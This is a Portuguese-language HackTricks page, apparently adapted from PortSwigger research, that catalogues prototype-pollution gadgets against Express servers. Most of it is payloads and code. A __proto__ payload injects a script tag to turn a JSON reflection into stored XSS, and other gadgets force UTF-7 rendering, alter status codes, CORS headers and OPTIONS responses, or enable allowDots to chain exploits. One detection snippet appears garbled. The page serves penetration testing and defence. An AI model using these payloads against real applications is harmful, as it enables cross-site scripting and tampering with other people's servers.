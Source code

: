 # Gadgets de Poluição de Protótipo do Express

{{#include ../../../banners/hacktricks-training.md}}

## Servir respostas XSS

**Para mais detalhes** [**dê uma olhada na pesquisa original**](https://portswigger.net/research/server-side-prototype-pollution)

### Mudar o tipo de conteúdo JSON para HTML

Em um aplicativo Express usando uma **resposta de tipo de conteúdo JSON** e refletindo um JSON:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Nestes casos, o XSS normalmente não é possível com um tipo de conteúdo JSON. No entanto, com a poluição de protótipos, podemos **confundir o Express para servir uma resposta HTML.** Essa vulnerabilidade depende da aplicação usar **`res.send(obj)`** e usar o body parser com o tipo de conteúdo application/json.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
Ao **poluir** as propriedades **`body`** e **`_body`**, é possível fazer com que **Express sirva o tipo de conteúdo HTML** e reflita a propriedade `_body`, resultando em XSS armazenado.

### Renderizar UTF7

É possível fazer o express **renderizar conteúdo UTF-7 com**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Técnicas de Escaneamento Seguras

### Espaços JSON

O seguinte PP fará com que os atributos dentro de um JSON tenham um espaço extra que não quebrará a funcionalidade:
```json
{ "__proto__": { "json spaces": " " } }
```
Então um JSON refletido ficará assim:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

O seguinte gadget de PP fará com que o servidor envie de volta o cabeçalho HTTP: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
Requer o **módulo CORS instalado**

### **Método OPTIONS**

Com o seguinte payload, é possível **ocultar um método de uma resposta OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

É possível alterar o **código de status retornado** usando o seguinte payload de PP:
```json
{ "__proto__": { "status": 510 } }
```
### Erro

Quando você atribui a um protótipo com um primitivo como uma string, isso produz uma **operação no-op, uma vez que o protótipo tem que ser um objeto**. Se você tentar atribuir um objeto protótipo ao `Object.prototype` em si, isso **gerará uma exceção**. Podemos usar esses dois comportamentos para **detectar se a poluição do protótipo foi bem-sucedida**:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Valor Refletido

Quando uma aplicação inclui um objeto em sua resposta, criar um atributo com um **nome incomum junto com `__proto__`** pode ser revelador. Especificamente, se **apenas o atributo incomum for retornado** na resposta, isso pode indicar a vulnerabilidade da aplicação:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Além disso, em cenários onde uma biblioteca como Lodash é empregada, definir uma propriedade tanto via poluição de protótipo (PP) quanto diretamente dentro do objeto oferece outra abordagem diagnóstica. Se tal propriedade for omitida da resposta, isso sugere que Lodash está verificando a existência da propriedade no objeto alvo antes de mesclar:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Diversos

### Permitir Pontos

Há uma opção no Express que permite **criar objetos a partir de parâmetros de string de consulta**.\
Você definitivamente poderia usá-la em uma **cadeia** de bugs para explorar uma **vulnerabilidade de poluição de protótipo
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` cria um objeto no Node.**

## Referências

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}

